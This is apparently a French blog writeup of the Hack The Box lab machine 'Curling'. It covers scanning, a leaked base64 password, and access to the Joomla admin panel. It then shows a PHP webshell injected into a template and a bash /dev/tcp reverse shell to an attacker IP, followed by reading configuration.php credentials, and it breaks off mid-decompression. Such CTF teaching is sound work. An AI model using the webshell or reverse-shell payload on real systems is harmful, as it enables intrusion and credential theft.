


---
# === Archetype writeups – v1 (stable) ===
# === Archetype: writeups (Page Bundle) ===
# Copié vers content/writeups/<nom_ctf>/index.md

# H1 SEO (via title, pas dans le markdown)
title: "Curling — HTB Easy Writeup & Walkthrough"
linkTitle: "Curling"
slug: "curling"
date: 2026-05-21T09:25:00+02:00
#lastmod: 2026-05-15T10:46:41+02:00
draft: false

# --- PaperMod / navigation ---
type: "writeups"
summary: "Curling (HTB Easy) : exploitation d’un Joomla vulnérable, réutilisation d’identifiants et escalade Linux via une tâche cron curl."
description: "Writeup de Curling (HTB Easy) : Joomla, indice caché, credential reuse, webshell, reverse shell et escalade via cron curl."
tags: ["Hack The Box","HTB Easy","linux-privesc","Web","Joomla","Credential Reuse","Webshell","Reverse Shell","Cron","curl"]
categories: ["Mes writeups"]

# Ajouter ensuite uniquement des tags techniques réellement utilisés dans le writeup,
# par exemple :
# - prise de pied : "Web", "SSH", "FTP"
# - faille : "XSS", "LFI", "RCE", "Path Traversal", "Shellshock"
# - techno / produit : "Grafana", "Chamilo", "CMS Made Simple", "js2py"
# - CVE : "CVE-2021-43798"
# - pivot : "Credential Reuse"
# - privesc spécifique : "sudo", "Docker", "Cron", "ACL", "PATH Hijacking", "tmux", "npbackup", "pspy64"

# --- TOC & mise en page ---
ShowToc: true
TocOpen: true
# toc_droite: 1

# --- Cover / images (Page Bundle) ---
cover:
  image: "image.png"
  alt: "Machine Curling HTB Easy exploitée via Joomla, webshell et escalade de privilèges Linux par tâche cron curl"
  caption: ""
  relative: true
  hidden: false
  hiddenInList: false
  hiddenInSingle: false

# --- Paramètres CTF (placeholders à éditer après création) ---
ctf:
  platform: "Hack The Box"
  machine: "Curling"
  difficulty: "Easy"
  target_ip: "10.129.x.x"
  skills: ["Enumeration","Web","Joomla","Credential Reuse","Reverse Shell","Privilege Escalation","Cron"]
  time_spent: "2h"
  # vpn_ip: "10.10.14.xx"
  # notes: "Points d'attention…"

# --- Options diverses ---
# weight: 10
# ShowBreadCrumbs: true
# ShowPostNavLinks: true

# --- SEO Reminders (à compléter après création) ---
# 1) Titre :
#    - Doit contenir : Nom Machine + HTB Easy + Writeup
# 2) Description :
#    - Résumé 130–160 caractères
#    - Style “Mix Parfait” : pédagogique + technique
#    - Exemple : "Writeup de <machine> (HTB Easy) : énumération claire, analyse de la vulnérabilité et escalade structurée."
# 3) ALT (image de couverture) :
#    - Mixer vulnérabilité + pédagogie + progression
#    - Exemple : "Machine <machine> HTB Easy vulnérable à <faille>, expliquée étape par étape jusqu'à l'escalade."
# 4) Tags :
#    - Toujours ["Easy"]
#    - Ajouter d'autres selon le thème : ["web","shellshock","heartbleed","enum"]
# 5) Structure :
#    - H1 = titre
#    - Description = meta description + preview social
#    - ALT = SEO image + accessibilité

# --- SEO CHECKLIST (à valider avant publication) ---

# [ ] 1) Titre (title + H1)
#     - Contient : Nom Machine + HTB Easy + Writeup
#     - Unique sur le site
#     - Lisible hors contexte HTB

# [ ] 2) Description (meta)
#     - 130–160 caractères
#     - Pas générique
#     - Ton pédagogique + technique
#     - Exemple :
#       "Writeup de <machine> (HTB Easy) : énumération claire,
#        compréhension de la vulnérabilité et escalade structurée."

# [ ] 3) Image de couverture
#     - Présente (ou fallback)
#     - Nom explicite
#     - Dimensions cohérentes

# [ ] 4) ALT de l’image
#     - Décrit la machine + l’approche
#     - Pédagogique (pas juste technique)
#     - Exemple :
#       "Machine <machine> HTB Easy exploitée étape par étape,
#        de l’énumération à l’escalade de privilèges."

# [ ] 5) Tags
#     - Toujours inclure la difficulté (ex: "Easy")
#     - Ajouter uniquement des tags techniques réels

# [ ] 6) Structure du contenu
#     - Un seul H1
#     - Sections claires et hiérarchisées
#     - Pas de sections SEO artificielles

---

<!-- ====================================================================
Tableau d'infos (modèle) — Remplacer les valeurs entre <...> après création.
Aucun templating Hugo dans le corps, pour éviter les erreurs d'archetype.
====================================================================
| Champ          | Valeur |
|----------------|--------|
| **Plateforme** | <Hack The Box> |
| **Machine**    | <Curling> |
| **Difficulté** | <Easy / Medium / Hard> |
| **Cible**      | <10.129.x.x> |
| **Durée**      | <2h> |
| **Compétences**| <Enumeration, Web, Privilege Escalation> |

---
-->
## Introduction

La machine Curling est une box Linux Easy de Hack The Box centrée sur l’exploitation d’un site Joomla, l’obtention d’une RCE via modification de template, puis une escalade de privilèges basée sur une mauvaise utilisation de `curl` dans une tâche automatisée exécutée par `root`.

Contrairement à certaines machines HTB Easy reposant sur une vulnérabilité immédiate ou un service exposé évident, Curling demande surtout une analyse méthodique du contenu web et des indices laissés dans l’application.

L’énumération initiale révèle une surface d’attaque relativement réduite avec Joomla 3.8.8 exposé sur le port HTTP.

Les scans automatisés ne mettent en évidence aucune exploitation directe évidente.

L’analyse doit donc revenir vers des vérifications plus manuelles : inspection du code source HTML, recherche de fichiers accessibles, analyse des contenus récupérés et exploration du panneau d’administration Joomla.

La prise pied s’effectue alors progressivement :

- découverte d’un fichier sensible oublié sur le serveur ;
- récupération d’identifiants Joomla ;
- accès à l’administration du CMS ;
- ajout d’un webshell dans un template ;
- obtention puis stabilisation d’un reverse shell Linux.

L’escalade de privilèges repose ensuite sur l’analyse du comportement d’une tâche exécutée périodiquement par `root`, utilisant `curl -K` avec un fichier de configuration contrôlable par l’utilisateur.

Ce writeup te montre notamment comment :

- analyser méthodiquement une application Joomla ;
- exploiter les fonctionnalités natives d’un CMS pour obtenir une RCE ;
- manipuler plusieurs couches de compression imbriquées ;
- stabiliser proprement un reverse shell Linux ;
- détourner une tâche automatisée mal sécurisée pour obtenir les privilèges root.

---

## Énumération



### Scan initial

Le scan TCP complet (`scans_nmap/full_tcp_scan.txt`) montre les ports ouverts suivants :

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -p- --min-rate 5000 -T4 -oN scans_nmap/full_tcp_scan.txt curling.htb
Nmap scan report for curling.htb (10.129.x.x)
Host is up (0.021s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

# Nmap done at [date]-- 1 IP address (1 host up) scanned in 7.32 seconds

```

### Scan FTP/SMB (si services détectés)

Après le scan initial, le script enchaîne automatiquement avec une phase d’énumération ciblée **FTP/SMB** si l’un des services suivants est détecté :

- **FTP** sur le port **21**
- **SMB** sur le port **139** et/ou **445**

Les résultats sont enregistrés dans (`scans_nmap/enum_ftp_smb_scan.txt`) :

```bash
# mon-nmap — ENUM FTP / SMB
# Target : curling.htb
# Date   : [date]

Aucun service FTP (21) ni SMB (139/445) détecté.
Ports ouverts détectés : 22,80
```


### Scan agressif

Le script enchaîne ensuite automatiquement sur un scan agressif orienté vulnérabilités.

Ce scan fournit des informations détaillées sur les services et versions détectés.

Les résultats sont enregistrés dans (`scans_nmap/aggressive_vuln_scan.txt`) :

```bash
[+] Scan agressif orienté vulnérabilités (CTF-perfect LEGACY) pour curling.htb
[+] Commande utilisée :
    nmap -Pn -A -sV -p"22,80" --script="(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 "curling.htb"

# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -A -sV -p22,80 "--script=(http-vuln-* or http-shellshock or ssl-heartbleed) and not (http-vuln-cve2017-1001000 or http-sql-injection or ssl-cert or sslv2 or ssl-dh-params)" --script-timeout=30s -T4 -oN scans_nmap/aggressive_vuln_scan_raw.txt curling.htb
Nmap scan report for curling.htb (10.129.x.x)
Host is up (0.012s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.19, Linux 5.0 - 5.14
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 22/tcp)
HOP RTT      ADDRESS
1   63.47 ms 10.10.16.1
2   7.86 ms  curling.htb (10.129.x.x)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 15.25 seconds
```


### Scan ciblé CMS

Le script exécute ensuite un scan ciblé CMS (scans_nmap/cms_vuln_scan.txt).

```bash
# Nmap 7.99 scan initiated [date] as: /usr/lib/nmap/nmap --privileged -Pn -sV -p22,80 --script=http-wordpress-enum,http-wordpress-brute,http-wordpress-users,http-drupal-enum,http-drupal-enum-users,http-joomla-brute,http-generator,http-robots.txt,http-title,http-headers,http-methods,http-enum,http-devframework,http-cakephp-version,http-php-version,http-config-backup,http-backup-finder,http-sitemap-generator --script-timeout=30s -T4 -oN scans_nmap/cms_vuln_scan.txt curling.htb
Nmap scan report for curling.htb (10.129.x.x)
Host is up (0.014s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-sitemap-generator: 
|   Directory structure:
|     /
|       Other: 1; php: 1
|     /index.php/2-uncategorised/
|       Other: 3
|     /index.php/component/users/
|       Other: 1
|     /media/jui/js/
|       js: 4
|     /media/system/js/
|       js: 4
|     /templates/protostar/
|       ico: 1
|     /templates/protostar/js/
|       js: 1
|   Longest directory structure:
|     Depth: 3
|     Dir: /media/system/js/
|   Total files found (by extension):
|_    Other: 5; ico: 1; js: 9; php: 1
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-generator: Joomla! - Open Source Content Management
|_http-title: Home
|_http-devframework: Joomla detected. Found common traces on /
| http-headers: 
|   Date: Fri, 15 May 2026 08:50:53 GMT
|   Server: Apache/2.4.29 (Ubuntu)
|   Set-Cookie: c0548020854924e0aecd05ed9f5b672b=32pdgvpr1mj722s5jt1g7m4rlg; path=/; HttpOnly
|   Expires: Wed, 17 Aug 2005 00:00:00 GMT
|   Last-Modified: Fri, 15 May 2026 08:50:53 GMT
|   Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
|   Pragma: no-cache
|   Connection: close
|   Content-Type: text/html; charset=utf-8
|   
|_  (Request type: HEAD)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-enum: 
|   /administrator/: Possible admin folder
|   /administrator/index.php: Possible admin folder
|   /administrator/manifests/files/joomla.xml: Joomla version 3.8.8
|   /language/en-GB/en-GB.xml: Joomla version 3.8.8
|   /htaccess.txt: Joomla!
|   /README.txt: Interesting, a readme.
|   /bin/: Potentially interesting folder
|   /cache/: Potentially interesting folder
|   /images/: Potentially interesting folder
|   /includes/: Potentially interesting folder
|   /libraries/: Potentially interesting folder
|   /modules/: Potentially interesting folder
|   /templates/: Potentially interesting folder
|_  /tmp/: Potentially interesting folder
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at [date] -- 1 IP address (1 host up) scanned in 37.71 seconds

```


### Scan UDP rapide

Le script lance également un scan UDP rapide afin de détecter d’éventuels services supplémentaires (`scans_nmap/udp_vuln_scan.txt`) :

```bash
# Nmap 7.99 scan initiated [date]6 as: /usr/lib/nmap/nmap --privileged -n -Pn -sU --top-ports 20 -T4 -oN scans_nmap/udp_vuln_scan.txt curling.htb
Warning: 10.129.x.x giving up on port because retransmission cap hit (6).
Nmap scan report for curling.htb (10.129.x.x)
Host is up (0.012s latency).

PORT      STATE         SERVICE
53/udp    closed        domain
67/udp    closed        dhcps
68/udp    open|filtered dhcpc
69/udp    closed        tftp
123/udp   open|filtered ntp
135/udp   open|filtered msrpc
137/udp   open|filtered netbios-ns
138/udp   closed        netbios-dgm
139/udp   closed        netbios-ssn
161/udp   closed        snmp
162/udp   open|filtered snmptrap
445/udp   closed        microsoft-ds
500/udp   closed        isakmp
514/udp   closed        syslog
520/udp   closed        route
631/udp   closed        ipp
1434/udp  closed        ms-sql-m
1900/udp  open|filtered upnp
4500/udp  closed        nat-t-ike
49152/udp closed        unknown

# Nmap done at [date] -- 1 IP address (1 host up) scanned in 11.92 seconds
```


### Énumération des chemins web
Pour la découverte des chemins web, tu peux utiliser le script dédié 

```bash
mon-recoweb curling.htb

# Résultats dans le répertoire scans_recoweb/
#  - scans_recoweb/RESULTS_SUMMARY.txt     ← vue d’ensemble des découvertes
#  - scans_recoweb/dirb.log
#  - scans_recoweb/dirb_hits.txt
#  - scans_recoweb/ffuf_dirs.txt
#  - scans_recoweb/ffuf_dirs_hits.txt
#  - scans_recoweb/ffuf_files.txt
#  - scans_recoweb/ffuf_files_hits.txt
#  - scans_recoweb/ffuf_dirs.json
#  - scans_recoweb/ffuf_files.json

```

Le fichier `RESULTS_SUMMARY.txt` regroupe les chemins découverts, sans parcourir l’ensemble des logs générés.

```bash
===== mon-recoweb — RÉSUMÉ DES RÉSULTATS =====
Commande principale : /home/kali/.local/bin/mes-scripts/mon-recoweb
Script              : mon-recoweb v2.2.3

Cible        : curling.htb
Périmètre    : /
Date début   : [date]

Commandes exécutées (exactes) :

[dirb — découverte initiale]
dirb http://curling.htb/ /usr/share/wordlists/dirb/common.txt -r | tee scans_recoweb/curling.htb/dirb.log

[ffuf — énumération des répertoires]
ffuf -u http://curling.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/curling.htb/ffuf_dirs.json 2>&1 | tee scans_recoweb/curling.htb/ffuf_dirs.log

[ffuf — énumération des fichiers]
ffuf -u http://curling.htb/FUZZ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-files.txt -t 30 -timeout 10 -fc 404 -of json -o scans_recoweb/curling.htb/ffuf_files.json 2>&1 | tee scans_recoweb/curling.htb/ffuf_files.log

Processus de génération des résultats :
- Les sorties JSON produites par ffuf constituent la source de vérité.
- Les entrées pertinentes sont extraites via jq (URL, code HTTP, taille de réponse).
- Les réponses assimilables à des soft-404 sont filtrées par comparaison des tailles et des codes HTTP.
- Les URLs finales sont reconstruites à partir du périmètre scanné (racine du site ou sous-répertoire ciblé).
- Les résultats sont normalisés sous la forme :
    http://cible/chemin (CODE:xxx|SIZE:yyy)
- Les chemins sont ensuite classés par type :
    • répertoires (/chemin/)
    • fichiers (/chemin.ext)
- Le fichier RESULTS_SUMMARY.txt est généré par agrégation finale, sans retraitement manuel,
  garantissant la reproductibilité complète du scan.

----------------------------------------------------

=== Résultat global (agrégé) ===

http://curling.htb/administrator/
http://curling.htb/administrator/ (CODE:301|SIZE:318)
http://curling.htb/bin/
http://curling.htb/bin/ (CODE:301|SIZE:308)
http://curling.htb/cache/
http://curling.htb/cache/ (CODE:301|SIZE:310)
http://curling.htb/cli/ (CODE:301|SIZE:308)
http://curling.htb/. (CODE:200|SIZE:14249)
http://curling.htb/components/
http://curling.htb/components/ (CODE:301|SIZE:315)
http://curling.htb/configuration.php (CODE:200|SIZE:0)
http://curling.htb/.htaccess.bak (CODE:403|SIZE:276)
http://curling.htb/.htaccess (CODE:403|SIZE:276)
http://curling.htb/htaccess.txt (CODE:200|SIZE:3005)
http://curling.htb/.htc (CODE:403|SIZE:276)
http://curling.htb/.ht (CODE:403|SIZE:276)
http://curling.htb/.htgroup (CODE:403|SIZE:276)
http://curling.htb/.htm (CODE:403|SIZE:276)
http://curling.htb/.html (CODE:403|SIZE:276)
http://curling.htb/.htpasswd (CODE:403|SIZE:276)
http://curling.htb/.htpasswds (CODE:403|SIZE:276)
http://curling.htb/.htuser (CODE:403|SIZE:276)
http://curling.htb/images/
http://curling.htb/images/ (CODE:301|SIZE:311)
http://curling.htb/includes/
http://curling.htb/includes/ (CODE:301|SIZE:313)
http://curling.htb/index.php (CODE:200|SIZE:14269)
http://curling.htb/language/
http://curling.htb/language/ (CODE:301|SIZE:313)
http://curling.htb/layouts/
http://curling.htb/layouts/ (CODE:301|SIZE:312)
http://curling.htb/libraries/
http://curling.htb/libraries/ (CODE:301|SIZE:314)
http://curling.htb/LICENSE.txt (CODE:200|SIZE:18092)
http://curling.htb/media/
http://curling.htb/media/ (CODE:301|SIZE:310)
http://curling.htb/modules/
http://curling.htb/modules/ (CODE:301|SIZE:312)
http://curling.htb/.php (CODE:403|SIZE:276)
http://curling.htb/plugins/
http://curling.htb/plugins/ (CODE:301|SIZE:312)
http://curling.htb/README.txt (CODE:200|SIZE:4872)
http://curling.htb/server-status (CODE:403|SIZE:276)
http://curling.htb/server-status/ (CODE:403|SIZE:276)
http://curling.htb/templates/
http://curling.htb/templates/ (CODE:301|SIZE:314)
http://curling.htb/tmp/
http://curling.htb/tmp/ (CODE:301|SIZE:308)
http://curling.htb/wp-forum.phps (CODE:403|SIZE:276)

=== Détails par outil ===

[DIRB]
http://curling.htb/administrator/
http://curling.htb/bin/
http://curling.htb/cache/
http://curling.htb/components/
http://curling.htb/images/
http://curling.htb/includes/
http://curling.htb/index.php (CODE:200|SIZE:14269)
http://curling.htb/language/
http://curling.htb/layouts/
http://curling.htb/libraries/
http://curling.htb/media/
http://curling.htb/modules/
http://curling.htb/plugins/
http://curling.htb/server-status (CODE:403|SIZE:276)
http://curling.htb/templates/
http://curling.htb/tmp/

[FFUF — DIRECTORIES]
http://curling.htb/administrator/ (CODE:301|SIZE:318)
http://curling.htb/bin/ (CODE:301|SIZE:308)
http://curling.htb/cache/ (CODE:301|SIZE:310)
http://curling.htb/cli/ (CODE:301|SIZE:308)
http://curling.htb/components/ (CODE:301|SIZE:315)
http://curling.htb/images/ (CODE:301|SIZE:311)
http://curling.htb/includes/ (CODE:301|SIZE:313)
http://curling.htb/language/ (CODE:301|SIZE:313)
http://curling.htb/layouts/ (CODE:301|SIZE:312)
http://curling.htb/libraries/ (CODE:301|SIZE:314)
http://curling.htb/media/ (CODE:301|SIZE:310)
http://curling.htb/modules/ (CODE:301|SIZE:312)
http://curling.htb/plugins/ (CODE:301|SIZE:312)
http://curling.htb/server-status/ (CODE:403|SIZE:276)
http://curling.htb/templates/ (CODE:301|SIZE:314)
http://curling.htb/tmp/ (CODE:301|SIZE:308)

[FFUF — FILES]
http://curling.htb/. (CODE:200|SIZE:14249)
http://curling.htb/configuration.php (CODE:200|SIZE:0)
http://curling.htb/.htaccess.bak (CODE:403|SIZE:276)
http://curling.htb/.htaccess (CODE:403|SIZE:276)
http://curling.htb/htaccess.txt (CODE:200|SIZE:3005)
http://curling.htb/.htc (CODE:403|SIZE:276)
http://curling.htb/.ht (CODE:403|SIZE:276)
http://curling.htb/.htgroup (CODE:403|SIZE:276)
http://curling.htb/.htm (CODE:403|SIZE:276)
http://curling.htb/.html (CODE:403|SIZE:276)
http://curling.htb/.htpasswd (CODE:403|SIZE:276)
http://curling.htb/.htpasswds (CODE:403|SIZE:276)
http://curling.htb/.htuser (CODE:403|SIZE:276)
http://curling.htb/index.php (CODE:200|SIZE:14269)
http://curling.htb/LICENSE.txt (CODE:200|SIZE:18092)
http://curling.htb/.php (CODE:403|SIZE:276)
http://curling.htb/README.txt (CODE:200|SIZE:4872)
http://curling.htb/wp-forum.phps (CODE:403|SIZE:276)

```


### Recherche de vhosts

Enfin, tu peux tester la présence de vhosts à l’aide du script .

```bash
=== mon-subdomains curling.htb START ===
Script       : mon-subdomains
Version      : mon-subdomains 2.0.1
Date         : [date]
Domaine      : curling.htb
IP           : 10.129.x.x
Mode         : large
Master       : /usr/share/wordlists/htb-dns-vh-5000.txt
Codes        : 200,301,302,401,403  (strict=1)

VHOST totaux : 0
  - (aucun)

--- Détails par port ---
Port 80 (http)
  Baseline#1: code=200 size=14271 words=1051 (Host=ud2ojwcbje.curling.htb)
  Baseline#2: code=200 size=14271 words=1051 (Host=tjc7qkmr4g.curling.htb)
  Baseline#3: code=200 size=14271 words=1051 (Host=rqiizcjhw8.curling.htb)
  VHOST (0)
    - (fuzzing sauté : wildcard probable)
    - (explication : réponse identique quel que soit Host → vhost-fuzzing non discriminant)


=== mon-subdomains curling.htb END ===

```

Si aucun vhost distinct n’est identifié, ce fichier confirme l’absence de résultats supplémentaires.

## Prise pied

L’énumération met en évidence un site web basé sur Joomla! 3.8.8 exposé sur le port HTTP.

Les différents scans automatisés ne révèlent aucune vulnérabilité exploitable directement dans le cœur de Joomla ni dans des composants tiers.

L’absence de vulnérabilité exploitable directement dans Joomla oriente donc l’analyse vers les contenus exposés par le site lui-même ainsi que vers les indices laissés dans l’application.

### Analyse du code source

L’inspection manuelle du code source de la page d’accueil révèle un commentaire HTML intéressant en fin de document :

```html
<!-- secret.txt -->
```

Tu récupères alors le fichier indiqué :

```bash
curl http://curling.htb/secret.txt
```

Résultat :

```txt
Q3VybGluZzIwMTgh
```

La chaîne utilise un format très courant en CTF et en développement web : elle ressemble fortement à une valeur encodée en Base64.

Décodage :

```bash
echo 'Q3VybGluZzIwMTgh' | base64 -d
```

Résultat :

```text
Curling2018!
```

À ce stade, il est probable que cette valeur corresponde à un mot de passe.

L’analyse du contenu de la page d’accueil permet également d’identifier un utilisateur potentiel :

```html
<p>- Floris</p>
```

Tu obtiens donc un premier couple utilisateur / mot de passe plausible :

```text
floris : Curling2018!
```

### Connexion à l’administration Joomla

Le panneau d’administration Joomla est accessible via :

```text
http://curling.htb/administrator
```

Le couple précédent permet effectivement de s’authentifier avec succès.


Une fois connecté à l’interface d’administration Joomla, tu cherches un moyen d’obtenir une exécution de code côté serveur.

### Modification du template Joomla

Le template Joomla actif utilisé par le site peut être identifié directement dans le code source HTML, notamment via les chemins chargés dans `/templates/`:

```html
/templates/protostar/
```

Depuis l’administration Joomla :

```
Extensions -> Templates -> Templates
```

tu ouvres alors le template :

```
Protostar
```

Puis le fichier :

```
index.php
```

Tu ajoutes temporairement le code suivant juste après :

```
defined('_JEXEC') or die;
```

L’objectif est d’ajouter un webshell minimal permettant d’exécuter des commandes système depuis le navigateur.

Payload ajouté :

```php
if(isset($_GET['cmd'])){
    system($_GET['cmd']);
}
```



Ce code permet d’exécuter une commande système transmise via le paramètre GET `cmd`.

### Validation de la RCE

Tu vérifies ensuite l’exécution de commande :

```bash
curl "http://curling.htb/?cmd=id"
```

Résultat :

```bash
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

L’exécution de commande est confirmée en tant que :

```bash
www-data
```



### Reverse shell

Depuis ton Kali, tu utilises `rlwrap` afin d’obtenir un reverse shell plus confortable et plus stable qu’avec un simple listener `nc` :

```bash
rlwrap -cAr nc -lvnp 4444
```

Puis via le navigateur :

```url
http://curling.htb/?cmd=bash -c 'bash -i >%26 /dev/tcp/10.10.14.X/4444 0>%261'
```

> Les caractères `%26` correspondent à l’encodage URL du caractère `&`, nécessaire ici pour transmettre correctement la commande via l’URL.

Tu obtiens alors un reverse shell interactif en tant que :

```
www-data
```

Avant de poursuivre la prise pied, il est recommandé de stabiliser le shell afin d’obtenir un terminal plus confortable et plus fiable en utilisant la recette 

### Récupération des credentials MySQL

Une fois sur la machine, tu consultes le fichier de configuration Joomla :

```bash
cat /var/www/html/configuration.php
```

Tu récupères notamment :

```php
public $user = 'floris';
public $password = 'mYsQ!P4ssw0rd$yea!';
```

Le mot de passe MySQL ne fonctionne cependant pas pour une connexion SSH.

L’exploration du home directory de `floris` révèle alors un fichier intéressant :

```bash
/home/floris/password_backup
```

### Analyse du fichier password_backup

Le contenu de `password_backup` contient uniquement des caractères hexadécimaux (`0-9` et `a-f`) :

```
425a6839...
```

Ce format correspond à un dump hexadécimal : le fichier ne contient pas directement les données binaires, mais leur représentation sous forme de caractères hexadécimaux.

La commande `xxd -r` permet alors de reconstruire le fichier binaire original à partir de ce dump hexadécimal.

```bash
xxd -r /home/floris/password_backup > /tmp/passwork
```

L’option `-r` signifie “reverse” : elle demande à `xxd` de faire l’opération inverse, c’est-à-dire de reconstruire les données binaires à partir du dump hexadécimal.

Le fichier reconstruit n’est pas lisible directement.

Tu commences donc par l’analyser avec la commande `file` afin d’identifier son format réel.

`file` indique d’abord un fichier `bzip2` : tu le décompresses, mais le résultat n’est toujours pas lisible.

Tu relances alors `file` sur le nouveau fichier.  

Cette fois, le format détecté est `gzip` : tu le décompresses à nouveau.

Le même scénario se répète ensuite plusieurs fois :

\- analyse avec `file` ;
\- identification du format ;
\- décompression ;
\- nouvelle analyse.

Au fil des étapes, tu traverses plusieurs couches successives :

